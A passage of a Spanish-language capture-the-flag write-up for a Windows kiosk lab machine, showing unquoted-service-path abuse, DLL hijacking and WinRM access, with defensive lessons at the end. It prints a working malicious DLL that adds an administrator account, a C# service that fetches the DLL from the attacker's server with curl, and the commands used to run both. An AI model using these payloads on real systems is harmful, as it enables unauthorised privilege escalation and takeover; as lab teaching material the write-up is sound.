PS C:\Program Files\Darkhaven Kiosk Services> sc.exe stop DH_KioskMonitor
PS C:\Program Files\Darkhaven Kiosk Services> sc.exe start DH_KioskMonitor
```

**Resultado:**

```
SERVICE_NAME: DH_KioskMonitor
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2   START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2432
        FLAGS              :
```

**Hallazgo:** El servicio se ha reiniciado. Windows ha ejecutado `DH.exe` como `dh_admin` antes de llegar a `monitor.exe`. Nuestro código C# se ha ejecutado con los privilegios de `dh_admin`.

### 7.9 Lectura del resultado

```powershell
PS C:\Program Files\Darkhaven Kiosk Services> type C:\Users\Public\out.txt
```

**Resultado:**

```
 Volume in drive C has no label.
 Volume Serial Number is 3C8B-D3F8

 Directory of C:\DarkhavenTools\logs

03/08/2026  01:34 PM    <DIR>          .
03/08/2026  01:34 PM    <DIR>          ..
10/26/2026  12:15 AM            59,202 healthcheck.log
               1 File(s)         59,202 bytes
               2 Dir(s)   8,755,724,288 bytes free
[2026-03-08 13:35:36] Health check log initialised
[2026-03-08 13:36:34] Health check started
[2026-03-08 13:36:34] Checking for plugin: C:\DarkhavenTools\logs\dhlog.dll
[2026-03-08 13:36:34] Plugin not found, skipping
[2026-03-08 13:36:34] Health check complete
...
```

**Hallazgo crítico:** El log `healthcheck.log` revela que el servicio real (`monitor.exe`) busca un plugin DLL en `C:\DarkhavenTools\logs\dhlog.dll` y lo carga si existe.

**Análisis del log:**

- En cada ciclo de "health check" (cada minuto aproximadamente), `monitor.exe` busca `dhlog.dll` en `C:\DarkhavenTools\logs\`.
- Si el archivo existe, lo carga.
- Actualmente no existe ("Plugin not found, skipping").
- Si podemos colocar una DLL maliciosa en esa ruta, `monitor.exe` la cargará y ejecutará.

**Esta es una vulnerabilidad de DLL Hijacking.**

### 7.10 Verificación de usuarios locales

Antes de continuar, verificamos los usuarios y grupos locales:

```powershell
PS C:\> net users
```

**Resultado:**

```
User accounts for \\EC2AMAZ-0536LUM

-------------------------------------------------------------------------------
Administrator            DefaultAccount           dh_admin
Guest                    kioskuser                svcuser
vdiuser                  WDAGUtilityAccount
The command completed successfully.
```

```powershell
PS C:\> net localgroup Administrators
```

**Resultado:**

```
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.
```

**Análisis:**

- Usuarios locales: `Administrator`, `DefaultAccount`, `dh_admin`, `Guest`, `kioskuser`, `svcuser`, `vdiuser`, `WDAGUtilityAccount`.
- Solo `Administrator` está en el grupo `Administrators`.
- `dh_admin` **no** es administrador local, pero tiene permisos para ejecutar el servicio `DH_KioskMonitor` y probablemente permisos de escritura en `C:\DarkhavenTools\logs\`.

---

## Fase 8: DLL Hijacking para obtener privilegios de Administrador

### 8.1 ¿Qué es el DLL Hijacking?

El **DLL Hijacking** (o **DLL Search Order Hijacking**) es una vulnerabilidad que ocurre cuando una aplicación carga una DLL de forma insegura. Si un atacante puede colocar una DLL maliciosa en una ubicación donde la aplicación la busque antes que la DLL legítima, la aplicación cargará y ejecutará el código del atacante.

**¿Cómo funciona la carga de DLLs en Windows?**

Cuando una aplicación llama a `LoadLibrary("dhlog.dll")` (sin ruta absoluta), Windows sigue un orden de búsqueda específico:

1. El directorio de la aplicación (`monitor.exe`).
2. El directorio del sistema (`C:\Windows\System32`).
3. El directorio del sistema de 16 bits (`C:\Windows\System`).
4. El directorio de Windows (`C:\Windows`).
5. El directorio actual del proceso.
6. Los directorios en la variable `PATH`.

**El ataque:** Si podemos colocar una DLL llamada `dhlog.dll` en una de estas ubicaciones (especialmente en una que sea escribible por nosotros), la aplicación cargará nuestra DLL en lugar de la legítima.

### 8.2 El vector en esta máquina

El log `healthcheck.log` revela que `monitor.exe` busca explícitamente `C:\DarkhavenTools\logs\dhlog.dll`. Esta es una **ruta absoluta**, lo que significa que `monitor.exe` ya ha resuelto la ruta y la está buscando en esa ubicación concreta.

**¿Por qué es vulnerable?**

- `monitor.exe` se ejecuta como `dh_admin`.
- La ruta `C:\DarkhavenTools\logs\` es **escribible por `dh_admin`** (según la lógica del sistema, ya que el servicio se ejecuta como `dh_admin` y necesita escribir logs allí).
- Si `svcuser` puede escribir en `C:\DarkhavenTools\logs\`, puede colocar una DLL maliciosa.

**Nota:** Aunque el log revela la ruta, no hemos verificado aún si `svcuser` puede escribir en `C:\DarkhavenTools\logs\`. Sin embargo, el hecho de que `dh_admin` (el usuario del servicio) pueda escribir allí sugiere que el directorio tiene permisos laxos.

### 8.3 Preparación de la DLL maliciosa

Creamos una DLL maliciosa en C que, al cargarse, añade el usuario `kali` al grupo `Administrators`:

```c
#include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        system("cmd /c net user kali Password123! /add && net localgroup administrators kali /add");
    }
    return TRUE;
}
```

**Análisis del código:**

- `DllMain`: Punto de entrada de cualquier DLL. Se ejecuta cuando la DLL se carga (`DLL_PROCESS_ATTACH`), se descarga (`DLL_PROCESS_DETACH`), se adjunta a un hilo (`DLL_THREAD_ATTACH`) o se desadjunta (`DLL_THREAD_DETACH`).
- `DLL_PROCESS_ATTACH`: Se ejecuta cuando la DLL se carga en el proceso. Este es el momento ideal para ejecutar nuestro código malicioso.
- `system(...)`: Ejecuta un comando de CMD.
  - `net user kali Password123! /add`: Crea un usuario local llamado `kali` con la contraseña `Password123!`.
  - `net localgroup administrators kali /add`: Añade el usuario `kali` al grupo `Administrators`.

**Compilación:**

Compilamos la DLL en nuestra máquina Kali usando `mingw-w64`:

```bash
x86_64-w64-mingw32-gcc -shared -o dhlog.dll dhlog.c
```

**Análisis:**

- `x86_64-w64-mingw32-gcc`: Compilador cruzado de GCC para Windows de 64 bits.
- `-shared`: Genera una DLL (biblioteca compartida).
- `-o dhlog.dll`: Nombre del archivo de salida.
- `dhlog.c`: Código fuente.

### 8.4 Segundo payload: Servicio que descarga la DLL

Ahora necesitamos colocar `dhlog.dll` en `C:\DarkhavenTools\logs\`. Modificamos el servicio C# para que descargue la DLL desde nuestro servidor HTTP:

```csharp
using System;
using System.Diagnostics;
using System.ServiceProcess;

public class SVC : ServiceBase {
    protected override void OnStart(string[] args) {
        Process.Start("cmd.exe", "/c curl 10.200.111.196:8000/dhlog.dll -o C:\\DarkhavenTools\\logs\\dhlog.dll");
        System.Threading.Thread.Sleep(3000);
        Stop();
    }
    static void Main() { ServiceBase.Run(new SVC()); }
}
```

**Análisis:**

- `curl 10.200.111.196:8000/dhlog.dll -o C:\DarkhavenTools\logs\dhlog.dll`: Descarga la DLL desde nuestro servidor HTTP y la guarda en `C:\DarkhavenTools\logs\`.
- `Thread.Sleep(3000)`: Espera 3 segundos para asegurarse de que la descarga termine.

**Compilación en el objetivo:**

```powershell
PS C:\Program Files\Darkhaven Kiosk Services> curl 10.200.111.196:8000/svc.cs -o svc.cs
PS C:\Program Files\Darkhaven Kiosk Services> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:DH.exe .\svc.cs
```

### 8.5 Ejecución del ataque

Reiniciamos el servicio `DH_KioskMonitor`:

```powershell
PS C:\Program Files\Darkhaven Kiosk Services> sc.exe stop DH_KioskMonitor
PS C:\Program Files\Darkhaven Kiosk Services> sc.exe start DH_KioskMonitor
```

**Resultado del segundo intento:**

```
[SC] ControlService FAILED 1062:
The service has not been started.
```

**Análisis del error:** `ControlService FAILED 1062` significa que el servicio no estaba en ejecución cuando intentamos detenerlo. Esto es normal si el servicio ya se detuvo en un intento anterior. Simplemente lo iniciamos de nuevo:

```powershell
PS C:\Program Files\Darkhaven Kiosk Services> sc.exe start DH_KioskMonitor
```

**Resultado:**

```
SERVICE_NAME: DH_KioskMonitor
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2   START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 332
        FLAGS              :
```

**Hallazgo:** El servicio se ha iniciado. `DH.exe` se ejecutó como `dh_admin`, descargó `dhlog.dll` a `C:\DarkhavenTools\logs\`. Posteriormente, `monitor.exe` (el servicio real) se ejecutó, encontró `dhlog.dll`, y lo cargó. La DLL ejecutó nuestro código malicioso.

### 8.6 Verificación del usuario creado

```powershell
PS C:\Program Files\Darkhaven Kiosk Services> net users
```

**Resultado:**

```
User accounts for \\EC2AMAZ-0536LUM

-------------------------------------------------------------------------------
Administrator            DefaultAccount           dh_admin
Guest                    kali                     kioskuser
svcuser                  vdiuser                  WDAGUtilityAccount
The command completed successfully.
```

```powershell
PS C:\Program Files\Darkhaven Kiosk Services> net localgroup Administrators
```

**Resultado:**

```
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
kali
The command completed successfully.
```

**Hallazgo crítico:** El usuario `kali` ha sido creado y **añadido al grupo `Administrators`**. Ahora somos administradores locales.

---

## Fase 9: Acceso final como Administrador

### 9.1 Conexión con WinRM

Ahora que tenemos una cuenta de administrador, podemos conectarnos por WinRM (que estaba abierto en el puerto 5985):

```bash
evil-winrm -u kali -p Password123! -i 10.1.146.139
```

**Resultado:**

```
Evil-WinRM shell v4.1

Info: Establishing connection to remote endpoint

Info: Connection successful
*Evil-WinRM* PS C:\Users\kali\Documents>
```

### 9.2 Verificación de privilegios

```powershell
*Evil-WinRM* PS C:\Users\kali\Documents> whoami
ec2amaz-0536lum\kali
```

### 9.3 Lectura de las flags

```powershell
*Evil-WinRM* PS C:\Users> type c:\users\dh_admin\desktop\flag3.txt
DH{unqu0t3d_s3rv1c3_pwn3d}
```

```powershell
*Evil-WinRM* PS C:\Users> type c:\users\administrator\desktop\flag4.txt
DH{dll_h1j4ck_4dm1n_0wn3d}
```

**Hallazgo:** Obtenemos las flags de `dh_admin` (que confirma el Unquoted Service Path) y de `Administrator` (que confirma el DLL Hijacking).

---

## 📌 Conclusión

Kiosk es una máquina **Media** que combina:

1. **Acceso inicial por RDP** con credenciales de bajo privilegio.
2. **Escape del kiosco** mediante el diálogo de impresión (`CTRL+P` → "Find Printer" → File Explorer → `cmd.exe`).
3. **Credenciales en archivos de configuración** (`kiosk.ini` con `svc_monitoring` y `sql_svc`).
4. **Credenciales en `unattend.xml`** (Base64 UTF-16LE → `Svc_DH!2024` para `svcuser`).
5. **Escalada a `svcuser`** mediante `runas`.
6. **Unquoted Service Path** en `DH_KioskMonitor` (ruta con espacios sin entrecomillar) para ejecutar `DH.exe` como `dh_admin`.
7. **DLL Hijacking** en `monitor.exe` (carga `dhlog.dll` desde un directorio escribible) para añadir `kali` a `Administrators`.
8. **Acceso final por WinRM** como administrador local.

---

## 📚 Lecciones aprendidas

1. **Las sesiones de kiosco deben bloquear todos los diálogos del sistema**  
   El diálogo de impresión (`CTRL+P`) abrió un explorador de archivos completo, lo que permitió escapar del kiosco. Las configuraciones de kiosco deben bloquear todos los diálogos del sistema operativo que puedan abrir exploradores de archivos o shells. Técnicas como AppLocker, Software Restriction Policies y bloqueo de accesos directos son esenciales.

2. **Las credenciales nunca deben almacenarse en archivos de configuración**  
   El archivo `kiosk.ini` contenía credenciales de `svc_monitoring` y `sql_svc` en texto plano. Los archivos de configuración deben usar variables de entorno o servicios de gestión de secretos.

3. **`unattend.xml` debe eliminarse después de la instalación**  
   El archivo `unattend.xml` contenía la contraseña de `svcuser` codificada en Base64. Aunque técnicamente no es texto plano, la codificación Base64 es trivialmente reversible. Los archivos `unattend.xml` deben eliminarse después de la instalación, o sus credenciales deben rotarse inmediatamente.

4. **Las rutas de servicio deben estar entrecomilladas**  
   La ruta `C:\Program Files\Darkhaven Kiosk Services\DH Monitor Service\monitor.exe` no estaba entrecomillada, lo que permitió a `svcuser` colocar `DH.exe` en una ruta intermedia y ejecutarlo como `dh_admin`. La solución es entrecomillar la ruta completa: `"C:\Program Files\Darkhaven Kiosk Services\DH Monitor Service\monitor.exe"`. Además, la configuración de permisos de `C:\Program Files\` debe restringir la escritura a administradores.

5. **Los servicios no deben ejecutarse con cuentas de usuario con privilegios excesivos**  
   `DH_KioskMonitor` se ejecutaba como `dh_admin`, un usuario que no es administrador pero que tiene acceso a `C:\DarkhavenTools\logs\`. El principio de mínimo privilegio debe aplicarse: el servicio debería ejecutarse con una cuenta con los permisos mínimos necesarios.

6. **Las DLLs deben cargarse desde rutas absolutas y seguras**  
   `monitor.exe` cargaba `dhlog.dll` desde `C:\DarkhavenTools\logs\`, un directorio escribible por `dh_admin`. Si la ruta es escribible por un atacante, un DLL Hijacking es posible. Las DLLs deben cargarse desde `C:\Windows\System32\` o desde el directorio de la aplicación con permisos restrictivos. Además, el directorio de logs no debería ser escribible por el usuario del servicio.

7. **La enumeración de servicios es fundamental en Windows**  
   `sc query` y `sc qc` revelaron el servicio vulnerable. El Unquoted Service Path es una vulnerabilidad clásica de Windows que debe buscarse en cualquier pentesting.

8. **Los logs pueden revelar rutas y configuraciones internas**  
   El log `healthcheck.log` reveló la ruta exacta de `dhlog.dll` y el hecho de que `monitor.exe` la carga. Los logs deben protegerse y no exponer rutas internas o configuraciones sensibles.

9. **La compilación en el objetivo es una técnica efectiva**  
   Usar `csc.exe` (incluido en Windows) para compilar C# en el objetivo evita tener que transferir binarios compilados. Esto es útil cuando el objetivo no tiene acceso a Internet pero tiene .NET Framework instalado.

---

**Writeup completado.** La máquina fue resuelta exitosamente.
